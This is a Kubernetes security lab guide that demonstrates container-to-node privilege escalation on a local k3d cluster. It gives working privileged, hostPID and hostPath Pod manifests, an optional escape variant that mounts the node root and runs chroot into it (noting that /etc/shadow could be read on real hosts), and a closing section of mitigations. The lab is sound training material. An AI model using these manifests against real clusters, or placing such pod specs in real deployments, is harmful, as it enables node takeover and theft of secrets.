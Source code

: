 # Lab 01 — Privilege Escalation via Over-Permissive Pod (k3d)

> **Estimated time:** 10–20 minutes  

---

## What you’ll learn

- How an unsafe Pod spec (`privileged`, `hostPID`, `hostPath`) lets you access **node** resources.
- How to verify and exploit a host filesystem mount from inside a pod.
- Why these settings are dangerous and how to mitigate them.

---

## Requirements

Use a Bash shell (macOS Terminal, Linux, or **Ubuntu on WSL2**). Make sure these are installed and working:

```bash
docker --version
k3d version
kubectl version --short
```

If you’re missing tools:

### macOS (Homebrew)
```bash
brew install --cask docker
open -a Docker.app   # start Docker Desktop and wait until it's running
brew install k3d kubectl
```

### Ubuntu / Debian
```bash
sudo apt update
sudo apt install -y docker.io uidmap
sudo usermod -aG docker $USER
newgrp docker
curl -s https://raw.githubusercontent.com/k3d-io/k3d/main/install.sh | bash
sudo apt install -y kubectl
```

### Windows 11 (WSL2 path)
1. Install **Docker Desktop** and enable *WSL2 integration*.
2. Install **Ubuntu** from the Microsoft Store.
3. Run the **Ubuntu** app and use the **Ubuntu** commands above (Linux section).

> If Docker Desktop is used, make sure it’s **running** before you start.

---

## Prep the lab folder & flag

```bash
# Pick a working folder
mkdir -p ~/k8s_labs/lab1 && cd ~/k8s_labs/lab1

# Create a host-side flag we'll try to read from the pod
mkdir -p flags
echo "FLAG-k8s-privilege-escalation-12345" > flags/flag1.txt
```

---

## Create a fresh k3d cluster

We mount the `./flags` folder into **both** the server and agent nodes at `/labflags` so the pod can hostPath-mount it no matter where it schedules.

```bash
k3d cluster delete priv-esc-lab || true

k3d cluster create priv-esc-lab   --agents 1   --k3s-arg '--disable=servicelb@server:0'   --volume "$PWD/flags:/labflags@server:0"   --volume "$PWD/flags:/labflags@agent:0"

kubectl config use-context k3d-priv-esc-lab
kubectl get nodes
```

> **Why two `--volume` flags?** The pod may land on the server or the agent node. Mounting both ensures `/labflags` exists either way.

---

## Pod manifest (over-permissive on purpose)

Save this as **`pwnpod.yaml`**:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwnpod
spec:
  hostPID: true
  containers:
  - name: attacker
    image: busybox:latest
    command: ["/bin/sh","-c","sleep 3600"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /mnt/host
  volumes:
  - name: host-root
    hostPath:
      path: /labflags
      type: Directory
```

---

## Run the lab

```bash
kubectl apply -f pwnpod.yaml
kubectl get pods -w
```

When `pwnpod` is `Running`, grab a shell and read the host-mounted file:

```bash
kubectl exec -it pwnpod -- /bin/sh
ls /mnt/host
cat /mnt/host/flag1.txt
```

You should see:

```
FLAG-k8s-privilege-escalation-12345
```

---

## (Optional) “Full escape” variant

Mount the **node root** into the pod and `chroot` for dramatic effect.

Create **`pwnpod-root.yaml`**:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwnpod-root
spec:
  hostPID: true
  containers:
  - name: attacker
    image: busybox:latest
    command: ["/bin/sh","-c","sleep 3600"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /mnt/host
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
```

Run it:

```bash
kubectl apply -f pwnpod-root.yaml
kubectl exec -it pwnpod-root -- /bin/sh
chroot /mnt/host /bin/sh || sh
hostname
# (On real hosts you could read /etc/shadow; in k3d this is the node container's FS)
```

---

## Teaching points (why this works)

| Misconfiguration      | What it enables |
|-----------------------|------------------|
| `privileged: true`    | Broad kernel/device access from the pod |
| `hostPID: true`       | View/interact with host process table |
| `hostPath` mount      | Direct file access to node paths |

**Bottom line:** With these three together, a compromised pod can pivot to the node.

---

## Cleanup

```bash
kubectl delete pod pwnpod pwnpod-root --ignore-not-found
k3d cluster delete priv-esc-lab
```

---

## Mitigations (for your real clusters)

- Enforce **Pod Security Admission** `restricted` profile (blocks privileged + hostPath by default).
- Drop `privileged: true` and `hostPID: true`.
- Restrict `hostPath` with admission controls (OPA/Gatekeeper or Kyverno).
- Tighten **RBAC** so few identities can create pods or request elevated security contexts.
- Use **seccomp**/**AppArmor** to reduce syscall exposure.

---

## Troubleshooting

**Pod stuck `ContainerCreating` with `FailedMount: hostPath type check failed`**
```text
/labflags is not a directory
```
Recreate the cluster and be sure both nodes have the mount (the two `--volume ... @server:0` and `@agent:0` flags in the create command).

**`ImagePullBackOff` / `ErrImagePull`**
- Check time & connectivity:
  ```bash
  date
  ping -c1 8.8.8.8
  ```
- Try pulling directly from the node’s containerd (helps pinpoint network vs. k8s):
  ```bash
  docker exec -it k3d-priv-esc-lab-agent-0 ctr -n k8s.io images pull docker.io/library/busybox:latest
  ```
- If Docker Hub is just slow, preload the image (keeps `:latest` in YAML):
  ```bash
  docker pull busybox:latest
  k3d image import -c priv-esc-lab busybox:latest
  kubectl delete pod pwnpod && kubectl apply -f pwnpod.yaml
  ```

**Windows/macOS file sharing**
- If `flags` doesn’t show up inside the node, enable file sharing for that folder/drive in Docker Desktop and retry cluster creation.
